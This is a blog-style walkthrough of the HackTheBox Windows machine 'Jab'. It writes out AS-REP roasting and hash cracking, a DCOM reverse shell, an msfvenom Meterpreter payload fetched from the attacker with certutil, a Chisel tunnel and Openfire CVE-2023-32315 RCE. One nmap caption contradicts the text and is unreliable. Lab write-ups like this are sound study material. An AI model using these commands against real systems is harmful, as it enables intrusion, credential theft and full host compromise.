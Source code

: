 ```yaml
---
title: "CTF: Jab (Windows, Medium)"
excerpt: "A detailed walkthrough of \"Jab\" machine on HackTheBox."
tagline: "Private chats are not so private."
header:
  teaser: /docs/assets/images/teasers/ctf/jab.png
  og_image: /docs/assets/images/teasers/ctf/jab.png
  overlay_image: /docs/assets/images/teasers/ctf/jab2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Medium
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Jab" machine on HackTheBox that is based on Windows operating system and categorized as "Medium" by difficulty. Infiltrate a private XMPP chat room to discover a path towards exploiting Openfire - an instant messaging and groupchat server.

## Reconnaissance

Run **nmap**:

```bash
nmap -sV -T4 <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

Nmap scan reveals XMPP service running on port 5269. XMPP is an open communication protocol designed for instant messaging, presence information, and contact list maintenance. Based on XML, it enables the near-real-time exchange of structured data between two or more network entities. You can learn more about it on [https://xmpp.org](https://xmpp.org).

There are several popular XMPP clients available, in this scenario we will use [Pidgin](https://www.pidgin.im) XMPP client to connect to the messaging server.

```bash
# Install Pidgin with the following command
sudo apt install pidgin
```
Run Pidgin and, when prompted, add a new account specifying target domain name:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate.png" alt="">
  <figcaption></figcaption>
</figure>

On the advanced settings tab, set Connection security to *"Use encryption if available"*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate2.png" alt="">
  <figcaption></figcaption>
</figure>

Click "Add". You should connect to the server successfully. Go to Tools - Plugins, enable *XMPP Console* and *Service Discovery*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Select XMPP Service Discovery from Tools dropdown menu. It will show the following available services on the webserver:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/xmppservices.png" alt="">
  <figcaption></figcaption>
</figure>

From Tools menu, open XMPP Console. Then go to Accounts - your user - Search for Users. Advanced User Search will open, search users by wildcard:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearch.png" alt="">
  <figcaption></figcaption>
</figure>

You should get a list of all users both in XMPP Console and Advanced User Search results:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearchresults.png" alt="">
  <figcaption></figcaption>
</figure>

Copy the output from XML Console to a text file. Then modify the XML Output to only contain unique strings with usernames and save them to another file for your comfort. The following command should do the trick:

```bash
cat users.txt | grep ".htb" | uniq | sed 's/<value>//g;s/<\/value>//g' | tr -d ' ' > filename
```

Modify the file manually if there will be any leftover lines that do not represent usernames. Your final list should look like this:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userlist.png" alt="">
  <figcaption></figcaption>
</figure>

The discovered usernames appear to be domain users. It is possible use them in [ASREP-Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack using **GETNPUsers.py** from **Impacket** tools to possibly get some user's account hash.

```bash
# Run GetNPUsers.py and convert hashes into a format suitable for JohnTheReaper, place output in hashes.txt
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile asrepusers.txt -format john -outputfile hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/getnpusersrun.png" alt="">
  <figcaption>Running GetNPUsers.py</figcaption>
</figure>

The process will take some time as our user list is quite long, but eventually the tool will extract 3 password hashes for users that did not have Kerberos pre-authentication enabled.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/asrepresults.png" alt="">
  <figcaption></figcaption>
</figure>

Now let's attempt to crack them with **JohnTheRipper*:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/hashcrack.png" alt="">
  <figcaption>Got a password for jmontgomery user!</figcaption>
</figure>

We have discovered our first set of credentials. Use them to login to XMPP server as **jmontgomery**. Search for services again. As **jmontgomery**, you will see a **new chat room** that was not visible previously:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroom.png" alt="">
  <figcaption></figcaption>
</figure>

Join **"pentest2003"** chat:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroomjoin.png" alt="">
  <figcaption></figcaption>
</figure>

Read the chat. In the conversation, you can see a leaked hash/password for **svc_openfire** user / service:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/svcopenfirehash.png" alt="">
  <figcaption></figcaption>
</figure>


## Exploitation / Foothold


The target host has RPC service running on port 135. Attempting to use **DCOM RCE** technique to gain foothold on the system (**dcomexec.py from Impacket tools**):


```bash
# Start a Netcat listener on desired port:
nc -lnvp <PORT>
# Generate a base64-encoded reverse shell payload for Windows (for example, on revshells.com)
# Run dcomexec.py with the generated payload:
sudo python dcomexec.py -object MMC20 -dc-ip <TARGET_IP> -debug jab.htb/'svc_openfire':'<PASSWORD>'@<TARGET_IP> 'cmd.exe /c powershell -e <BASE64-ENCODED REVERSE SHELL>' -silentcommand
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/dcomexecrun.png" alt="">
  <figcaption></figcaption>
</figure>

If executed successfully, a callback should be received on Netcat listener:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/callback.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

Claim user flag in *c:\users\svc_openfire\desktop* folder:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userflag.png" alt="">
  <figcaption></figcaption>
</figure>


## Privilege escalation

To improve our capabilities, let's obtain a Meterpreter shell.

```bash
# Generate Meterpreter executable with msfvenom:
msfvenom  -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f exe > <filename>
# Start Metasploit and Meterpreter listener:
msfconsole
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT>
run
# Start Python HTTP server:
python3 -m http.server <PORT>
# On target host, download the generated file from your Python HTTP server:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<filename>" <filename>
# Execute it
.\<filename>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/backdoorexe.png" alt="">
  <figcaption>Transferring and calling Meterpreter executable.</figcaption>
</figure>


You should receive a callback in Metasploit. Let's enumerate applications on the target host with *post/windows/gather/enum_applications* module:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/enum_applications.png" alt="">
  <figcaption></figcaption>
</figure>

It's possible to deduce that the messaging server is based on **Openfire** (however, we could deduce this from the username as well). Enumeration of active connections with **netstat** shows that Openfire is listening internally on port 9090:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/netstat.png" alt="">
  <figcaption></figcaption>
</figure>

From here it is necessary to perform port forwarding in order to reach Openfire on internal port. Unfortunately, Meterpreter's port forwarding module did not work during my walkthrough, so I had to resort to [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.3). Download a Windows x64 executable for the target machine and a Linux x64 one for yours. Transfer the Windows Chisel executable to the target host with the HTTP method shown previously. Then run the following:

```bash
# Attacker
./chisel_1.7.4_linux_amd64 server --reverse --port 9000
# Target
chisel_1.7.4_windows_amd64 client <YOUR_IP>:9000 9090:127.0.0.1:9090
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/chisel.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

If a tunnel has been established successfully, you can navigate to *127.0.0.1:9090* to reach Openfire Administration Console. Login with **svc_openfire** credentials:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/openfireconsole.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

### CVE-2023-32315

Vulnerability research for Openfire v.4.7.5. leads to **CVE-2023-32315** - Openfire Path Traversal which can be further exploited to gain unauthorized access to Openfire console and Remote Code Execution. Since we already have a set of credentials, we do not need to bypass authentication; we can proceed to the RCE part. For those interested, here's a could [article](https://vulncheck.com/blog/openfire-cve-2023-32315) that explains CVE-2023-32315 exploitation in more detail.

Download the following [exploit](https://github.com/miko550/CVE-2023-32315) from GitHub.


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/exploit.png" alt="">
  <figcaption></figcaption>
</figure>

Highlighted is a malicious "Management tool" plugin that will allow us to obtain RCE on the system and escalate privileges to Administrator. Upload the plugin in "Plugins" section.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pluginupload.png" alt="">
  <figcaption></figcaption>
</figure>


Navigate to Server - Server Settings - Management Tool. In the admin login panel, enter **123**. Select **system command** from dropdown menu. Background your current Meterpreter session with CTRL + Z and run the listener again. In the plugin's "Execute command" field, specify the path to the Meterpreter executable we have uploaded previously:


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/execcommand.png" alt="">
  <figcaption></figcaption>
</figure>

You will receive a Meterpreter shell as Administrator user.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/adminshell.png" alt="">
  <figcaption></figcaption>
</figure>


### Root flag

Claim root flag in *c:\users\administrator\desktop\root.txt*




**Thank you for your attention and happy hacking!**
{: .notice--primary}
